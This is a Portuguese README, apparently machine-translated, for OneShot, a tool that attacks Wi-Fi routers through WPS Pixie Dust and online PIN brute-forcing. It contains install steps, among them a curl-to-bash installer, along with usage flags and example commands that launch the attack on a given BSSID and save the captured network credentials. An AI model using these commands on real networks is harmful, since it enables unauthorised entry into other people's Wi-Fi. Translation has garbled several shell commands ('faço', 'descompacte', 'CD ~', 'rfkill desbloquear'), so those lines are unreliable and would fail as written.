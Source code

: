 # Visão geral
**OneShot** executa [ataque Pixie Dust](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) sem ter que mudar para o modo monitor.
# Características
  - [ataque Pixie Dust](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
  - integrado [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
  - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
  - Scanner Wi-Fi com destaque baseado em iw;
# Requisitos
  - Python 3.6 e superior;
  - [suplicante Wpa](https://www.w1.fi/wpa_supplicant/);
  - [Pixiewps](https://github.com/wiire-a/pixiewps);
  - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).
# Configurar
## Debian/Ubuntu
**Requisitos de instalação**
  ```
  sudo apt install -y python3 wpasupplicant iw wget
  ```
**Instalando o Pixiewps**

***Ubuntu 18.04 e superior ou Debian 10 e superior***
  ```
  sudo apt install -y pixiewps
  ```
 
***Outras versões***
  ```
  sudo apt install -y build-essential unzip
  wget https://github.com/wiire-a/pixiewps/archive/master.zip && descompacte master.zip
  cd pixiewps*/
  faço
  sudo make install
  ```
**Obtendo OneShot**
  ```
  CD ~
  wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
  ```
Opcional: obter uma lista de dispositivos vulneráveis a pó mágico para realçar nos resultados da verificação:
  ```
  wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
  ```
## ArchLinux
**Requisitos de instalação**
  ```
  sudo pacman -S wpa_supplicant pixiewps wget python
  ```
**Obtendo OneShot**
  ```
  wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
  ```
Opcional: obter uma lista de dispositivos vulneráveis a pó mágico para realçar nos resultados da verificação:
  ```
  wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
  ```
## Alpine Linux
Ele também pode ser usado para rodar em dispositivos Android usando [Linux Deploy](https://play.google.com/store/apps/details?id=ru.meefik.linuxdeploy)

**Requisitos de instalação**
Adicionando o repositório de teste:
  ```
  sudo sh -c 'echo "http://dl-cdn.alpinelinux.org/alpine/edge/testing/" >> /etc/apk/repositories'
  ```
  ```
  sudo apk add python3 wpa_supplicant pixiewps iw
  ```
  **Obtendo OneShot**
  ```
  sudo wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
  ```
Opcional: obter uma lista de dispositivos vulneráveis a pó mágico para realçar nos resultados da verificação:
  ```
  sudo wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
  ```
## [Termux](https://termux.com/)
Por favor, note que o acesso root é necessário.

#### Usando o instalador
  ```
  curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash
  ```
#### Manualmente
**Requisitos de instalação**
  ```
  pkg install -y root-repo
  pkg install -y git tsu python wpa-suplicante pixiewps iw openssl
  ```
**Obtendo OneShot**
  ```
  git clone --depth 1 https://github.com/drygdryg/OneShot OneShot
  ```
#### Corrida
  ```
  sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
  ```

# Uso
```
  oneshot.py <argumentos>
  Argumentos necessários:
      -i, --interface=<wlan0> : Nome da interface a ser usada

  Argumentos opcionais:
      -b, --bssid=<mac> : BSSID do AP de destino
      -p, --pin=<wps pin> : Use o pino especificado (string arbitrária ou pino de 4/8 dígitos)
      -K, --pixie-dust : Executa o ataque Pixie Dust
      -B, --bruteforce : executa um ataque de força bruta online
      --push-button-connect : Executa a conexão do botão WPS

  Argumentos avançados:
      -d, --delay=<n>: define o atraso entre as tentativas de pin [0]
      -w, --write : grava as credenciais do AP no arquivo em caso de sucesso
      -F, --pixie-force : Executa o Pixiewps com a opção --force (bruteforce full range)
      -X, --show-pixie-cmd: sempre imprime o comando Pixiewps
      --vuln-list=<filename> : Use arquivo personalizado com lista de dispositivos vulneráveis ['vulnwsc.txt']
      --iface-down : Desativa a interface de rede quando o trabalho é concluído
      -l, --loop: Executa em um loop
      -r, --reverse-scan : Ordem inversa das redes na lista de redes. Útil em telas pequenas
      --mtk-wifi : ativa o driver de interface MediaTek Wi-Fi na inicialização e desativa-o ao sair
                                 (para adaptadores Wi-Fi internos implementados em MediaTek SoCs). Desligue o Wi-Fi nas configurações do sistema antes de usar isso.
      -v, --verbose: saída detalhada
  ```

## Exemplos de uso
Inicie o ataque Pixie Dust em um BSSID especificado:
  ```
  sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
  ```
Mostrar redes disponíveis e iniciar o ataque Pixie Dust em uma rede especificada:
  ```
  sudo python3 oneshot.py -i wlan0 -K
  ```
Inicie o WPS bruteforce online com a primeira metade especificada do PIN:
  ```
  sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
  ```
  Inicie a conexão do botão WPS:s
  ```
  sudo python3 oneshot.py -i wlan0 --pbc
  ```
## Solução de problemas
####" RTNETLINK responde: Operação não é possível devido a RF-kill"
  Apenas corra:
```sudo rfkill desbloquear wifi```
#### "Dispositivo ou recurso ocupado (-16)"
  Tente desativar o Wi-Fi nas configurações do sistema e elimine o gerenciador de rede. Como alternativa, você pode tentar executar o OneShot com o argumento ```--iface-down```.
#### A interface wlan0 desaparece quando o Wi-Fi é desativado em dispositivos Android com MediaTek SoC
  Tente executar o OneShot com o sinalizador `--mtk-wifi` para inicializar o driver do dispositivo Wi-Fi.
# Reconhecimentos
## Agradecimentos especiais
* `rofl0r` para implementação inicial;
* `Monohrom` para testes, ajuda na captura de bugs, algumas ideias;
* `Wiire` para desenvolver Pixiewps.
